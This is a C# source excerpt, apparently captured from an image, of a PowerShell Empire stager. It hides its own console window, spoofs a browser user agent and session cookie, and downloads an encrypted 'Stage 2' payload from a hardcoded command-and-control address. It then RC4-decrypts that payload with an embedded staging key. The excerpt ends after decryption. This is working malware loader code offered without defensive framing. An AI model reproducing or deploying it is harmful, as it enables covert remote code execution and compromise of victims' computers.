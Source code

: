 ```
                    cipher[i] = (byte)(data[i] ^ k);
                }
                return cipher;
            }
 
            public static byte[] Decrypt(byte[] pwd, byte[] data)
            {
                return Encrypt(pwd, data);
            }
 
        }
 
        // Hide Windows function by our friends from StackOverFlow
        // https://stackoverflow.com/questions/34440916/hide-the-console-window-from-a-console-application
        [DllImport("kernel32.dll")]
        static extern IntPtr GetConsoleWindow();
 
        [DllImport("user32.dll")]
        static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
 
        static void Main(string[] args)
        {
            // To Hide the ConsoleWindow (It may be a better way...)
            var handle = GetConsoleWindow();
            ShowWindow(handle, 0);
 
            // Avoid sending Expect 100 Header 
            System.Net.ServicePointManager.Expect100Continue = false;
 
            // Create a WebClient Object (No Proxy Support Included)
            WebClient wc = new WebClient();
            string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
            wc.Headers["User-Agent"] = ua;
            wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
 
            // Set the Server Address and URL 
            string server = "http://192.168.6.119:8081";
            string target = "/CWoNaJLBo/VTNeWw11212/";
 
            // Download The Data or Stage 2
            byte[] data = wc.DownloadData(server + target);
 
            // Extract IV
            byte[] iv = data.Take(4).Select(i => i).ToArray();
 
            // Remove the IV from the data
            byte[] data_noIV = data.Skip(4).ToArray();
 
            // Set Key value for decryption. PowerEmpire StageingKey value 
            string key = "fdcece0a22c10f83dccc8f17c95a33d4";
            byte[] K = Encoding.ASCII.GetBytes(key);
 
            // Combine the IV + Key (New random key each time)
            byte[] IVK = new byte[iv.Length + K.Length];
            iv.CopyTo(IVK, 0);
            K.CopyTo(IVK, iv.Length);
 
            // Decrypt the Message
            byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 
            // Convert the stage2 decrypted message from bytes to ASCII
            string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
```